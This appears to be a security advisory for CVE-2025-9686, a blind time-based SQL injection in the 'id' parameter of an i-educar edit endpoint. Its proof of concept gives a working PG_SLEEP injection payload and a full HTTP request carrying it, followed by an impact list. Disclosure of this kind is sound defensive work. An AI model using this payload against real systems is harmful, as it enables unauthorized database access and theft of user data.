

## CVE-2025-9686: SQL Injection (Blind Time-Based) Vulnerability in `id` Parameter on `/module/AreaConhecimento/edit` Endpoint

> *CVE Publication: https://www.cve.org/CVERecord?id=CVE-2025-9686*

## Summary

<p style="text-align: justify;">A SQL Injection vulnerability was discovered in the <code>id</code> parameter of the <code>/module/AreaConhecimento/edit</code> endpoint. This issue allows any unauthenticated attacker to inject arbitrary SQL queries, potentially leading to unauthorized data access or further exploitation depending on database configuration.</p>

## Details

<p style="text-align: justify;">The application fails to properly sanitize user-supplied input in the <code>id</code> parameter. As a result, specially crafted SQL payloads are interpreted directly by the backend database.</p>

## PoC

Vulnerable Endpoint: `/module/AreaConhecimento/edit`

Parameter: `id`

### Payload:

```terminal
'+AND+7097=(SELECT+7097+FROM+PG_SLEEP(5))+AND+'WqeR'='WqeR
```

#### Example Request

```terminal
POST /module/AreaConhecimento/edit?id=3'+AND+7097=(SELECT+7097+FROM+PG_SLEEP(5))+AND+'WqeR'='WqeR HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 90
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/module/AreaConhecimento/edit?id=3
Cookie: grav-admin-flexpages=eyJyb3V0ZSI6Ii9ob21lIiwiZmlsdGVycyI6e319; grav-tabs-state={%22tab--f0e041eed24f87f2b6b02fd6924d0a08%22:%22data.languages%22%2C%22tab-flex-pages-e838602f51515c83bca06a8ae758ce52%22:%22data.security%22%2C%22tab-flex-pages-b6676b27f5cdf6b6c22f8e18da4259a0%22:%22data.advanced%22%2C%22tab-flex-pages-raw-8f0a83a672754f7823714134334b1de8%22:%22data.content%22%2C%22tab-flex-pages-dc26c564cb2116d77bda5fff24ba90dc%22:%22data.security%22%2C%22tab-flex_conf-user_groups-accounts-02f0e9f68f41a0648ed530f80bd72c06%22:%22data.cache%22%2C%22tab-flex-pages-raw-9a0364b9e99bb480dd25e1f0284c8555%22:%22data.content%22%2C%22tab-flex-pages-e91e6348157868de9dd8b25c81aebfb9%22:%22data.security%22%2C%22tab--8cc45760590da203c5fc3568ecbabd66%22:%22data.routes%22%2C%22tab--7a2ac3477f8ad14aa750831441325a16%22:%22data.facebook%22}; i_educar_session=iIw1P9Yxwm9hsXZb74mgDwRm5ltCSdmSQuuURvmG
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

tipoacao=Editar&id=3&instituicao=1&nome=Educa%C3%A7%C3%A3o+Infantil&secao=&ordenamento_ac=
```

<p style="text-align: justify;">This payload introduces a time delay, demonstrating the ability to execute arbitrary SQL queries.</p>



<p style="text-align: justify;">Observe the time delay in the server response, indicating the successful execution of the SQL payload.</p>

## Impact

<p style="text-align: justify;">
  <ul>
    <li>Unauthorized access to sensitive data (e.g., users, passwords, logs).</li>
    <li>Database enumeration (schemas, tables, users, versions).</li>
    <li>Escalation to RCE depending on DB configuration (e.g., xp_cmdshell, UDFs).</li>
    <li>Full compromise of the application if chained with other vulnerabilities.</li>
    <li>This issue affects all users and environments, as it does not require authentication and is reachable via a public endpoint.</li>
  </ul>
</p>

## Reference

***[https://github.com/marcelomulder/CVE/blob/main/i-educar/CVE-2025-9686.md](https://github.com/marcelomulder/CVE/blob/main/i-educar/CVE-2025-9686.md)***

## Finder

[](http://www.linkedin.com/in/marceloqueirozjr) [Marcelo Queiroz](http://www.linkedin.com/in/marceloqueirozjr)

> ***By: [CVE-Hunters](https://github.com/CVE-Hunters/cve-hunters)***